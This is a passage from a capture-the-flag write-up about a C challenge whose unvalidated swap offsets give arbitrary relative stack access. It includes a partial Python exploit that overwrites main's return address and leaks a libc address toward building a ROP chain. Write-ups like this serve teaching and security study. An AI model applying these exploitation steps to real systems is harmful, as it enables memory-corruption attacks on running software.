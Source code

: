 ```c
  write(1,"\n",1);
  return 0;
}
```

the basic execution flow seems rather simple, take two long offsets from `char buffer[8]` from user using `readint()` and then `swap()` them (using xor). If both provided offsets equal 0 the loop is exited, afterwards the byte order of the buffer is reversed and printed. Normally because the GLIBC `FILE` struct allows some shenanigans this  would be the obvious attack vector (and is used in the official writeup), but this won't be needed for this exploit.

### Vulnerability

If we look at the code provided above there is an obvious vulnerability, the offsets read from `readint()` and used for `swap()` are never validated therefore giving  us unlimited relative stack access to stack, which we can e.g. use to change the RET address and build a ROP chain:

```python
...

BASE = 0 # default base
# calculate values for woogie_boogie using BASE (of buffer) and target
def base_diff(a, base=None):
  if base is None:
    base = BASE
  diff = a - base
  assert diff % 8 == 0, "unaligned diff"
  return diff // 8

def woogie_boogie(a, b):
  sla("woogie: ", a)
  sla("boogie: ", b)

def leaker():
  woogie_boogie(0, 0) # end main loop
  return rl()[:-1] # get leak from buffer

# important offsets
BASE = 0x7fffffffed10
START_REF = base_diff(0x7fffffffede8) # 27
ROP = base_diff(0x7fffffffed38) # 5

t = get_target()
woogie_boogie(0, START_REF) # swap a stack reference to the _start function with our buffer
woogie_boogie(0, ROP) # swap the RET address of the main function with our buffer (to loop back to main)
leak = leaker() # leak the inital RET addrress (__libc_start_main+243)
lhex(leak, '__libc_start_main+243: ')
# new prompt for woogie:
it() # t.interactive()
```
